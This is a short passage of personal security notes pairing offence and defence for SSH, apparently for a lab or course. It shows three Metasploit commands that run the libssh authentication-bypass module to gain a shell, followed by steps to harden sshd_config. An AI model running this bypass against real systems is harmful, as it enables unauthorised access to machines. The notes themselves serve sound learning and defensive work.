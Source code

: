 

## [[Notes/SSH\|SSH]] Exploitation
```shell
use auxiliary/scanner/ssh/libssh_auth_bypass
set SPAWN_PTY true
run
```

</div></div>

# 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

# Hardening SSH

</div>


- In the admin shell, go to the `/etc/ssh/sshd_config` file and edit it using your favourite text editor (remember to use sudo). 
- Find the line that says `#PasswordAuthentication yes` and change it to `PasswordAuthentication no` (remove the # sign and change yes to no).

- Next, find the line that says `Include /etc/ssh/sshd_config.d/*.conf` and change it to `#Include /etc/ssh/sshd_config.d/*.conf` (add a # sign at the beginning). 
- Save the file, then enter the command `sudo systemctl restart ssh`.

</div></div>



